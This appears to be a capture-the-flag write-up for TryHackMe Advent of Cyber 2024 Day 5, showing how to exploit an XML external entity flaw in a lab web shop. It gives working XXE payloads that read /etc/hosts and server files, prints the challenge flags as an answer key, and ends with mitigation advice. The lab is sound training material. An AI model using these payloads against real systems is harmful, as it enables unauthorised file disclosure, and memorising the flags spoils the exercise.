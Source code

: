 # 🎄 TryHackMe Advent of Cyber 2024 – Day 5: XXE Exploitation Challenge

## Objectives 🎯

1. Understand how XML and entities work to identify XXE vulnerabilities.
2. Exploit the XXE vulnerability to access restricted files.
3. Investigate application development history for signs of sabotage.

## Steps 🚀

### Step 1: Identifying the XXE Vulnerability

#### Setting Up Burp Suite
1. **Install and Launch Burp Suite:**  
   - Download Burp Suite [here](https://portswigger.net/burp).
2. **Navigate to the Website:**  
   - Open Burp's browser and visit `http://MACHINE_IP/product.php`.
3. **Add a Product to Wishlist:**  
   - Intercept the "Add to Wishlist" request using Burp Suite’s **Proxy** tab.

#### Crafting the Payload
1. **Intercept and Modify the Request:**  
   Replace the `<product_id>` value in the XML with an external entity reference:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Send the Request:**  
   Use Burp’s **Repeater** tab to send the modified request and observe the response.

### Step 2: Exploiting the XXE Vulnerability

#### Accessing Sensitive Files
1. **Target Files in the Server:**  
   Modify the payload to access files in `/var/www/html/wishes/`:
   ```
   <!--?xml version="1.0"?-->
   <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
   <wishlist>
     <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
   </wishlist>
   ```
2. **Iterate Through Files:**  
   Change the file name incrementally (e.g., `wish_2.txt`, `wish_3.txt`) to uncover additional content.

#### Discovering the Flag
- On `wish_15.txt`, the response reveals:  
  ```
  PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
  ```

### Step 3: Investigating the Sabotage

#### Accessing the Changelog
1. **View the Changelog:**  
   Visit `http://MACHINE_IP/CHANGELOG`.
2. **Analyze Entries:**  
   The changelog indicates a recent update introducing vulnerable XML parser code.

#### Discovering the Sabotage Flag
- The changelog reveals the sabotage:  
  **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`

## Key Findings 🔑

1. **Sensitive File Access:** Exploiting the XXE vulnerability enabled access to restricted server files.
2. **Evidence of Sabotage:** The changelog confirmed suspicious modifications by Mayor Malware.
3. **Unsecure XML Parsing:** The vulnerability arose from improperly handled external entities.

## Lessons Learned 🌟

### Understanding XXE Exploitation
1. **XML Risks:** XML parsing without restrictions can expose sensitive backend systems.
2. **Entity Resolution:** External entities can be used to access files or send malicious requests.

### Mitigation Strategies
1. **Disable External Entity Loading:**  
   - Use `libxml_disable_entity_loader(true)` in PHP.
2. **Input Validation:**  
   - Restrict XML structures and validate inputs before processing.
3. **Regular Audits:**  
   - Review and test applications for vulnerabilities prior to deployment.

### Tools and Techniques 🛠️

1. **[Burp Suite](https://portswigger.net/burp):** Intercepted and modified HTTP requests to test for XXE.  
2. **XML Payloads:** Exploited vulnerabilities using custom XML with external entities.  
3. **Browser:** Accessed the application and verified the exploitation outcomes.

## Final Thoughts 🎁

Day 5 emphasized the importance of secure coding practices when dealing with XML. The challenge demonstrated how improper parsing could expose sensitive data and highlighted the dangers of external entities. Understanding these risks and addressing them proactively is crucial for secure application development.

### Answers ✅

1. **What is the flag discovered after navigating through the wishes?**  
   **Answer:** `THM{Brut3f0rc1n6_mY_w4y}`  
2. **What is the flag seen on the possible proof of sabotage?**  
   **Answer:** `THM{m4y0r_m4lw4r3_b4ckd00rs}`  

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](README.md)                    | 11   | [Wi-Fi Attacks](day_11.md)             | 22   | [Kubernetes DFIR](day_22.md)            |
| 1    | [OPSEC Challenge](day1.md)             | 12   | [Web Timing Attacks](day_12.md)        | 23   | [Hash Cracking](day_23.md)              |
| 2    | [Log Analysis](day2.md)                | 13   | [WebSockets](day_13.md)                | 24   | [Hash Cracking](day_23.md)              |
| 3    | [Log Analysis](day3.md)                | 14   | [Certificate Mismanagement](day_14.md) | 25   |                                         |
| 4    | [Atomic Red Team](day4.md)             | 15   | [Active Directory](day_15.md)          | 26   |                                         |
| 5    | **XXE]**                               | 16   | [Azure Exploitation](day_16.md)        | 27   |                                         |
| 6    | [Sandboxes](day6.md)                   | 17   | [Log Analysis](day_17.md)              | 28   |                                         |
| 7    | [AWS Sandboxes](day7.md)               | 18   | [Prompt Injection](day_18.md)          | 29   |                                         |
| 8    | [Shellcodes](day8.md)                  | 19   | [Game Hacking](day_19.md)              | 30   |                                         |
| 9    | [Risk Assessment](day9.md)             | 20   | [Traffic Analysis](day_20.md)          | 31   |                                         |
| 10   | [Phishing](day_10.md)                  | 21   | [Reverse Engineering](day_21.md)       | ☃️  | 🎄🎅🎁✨                              |
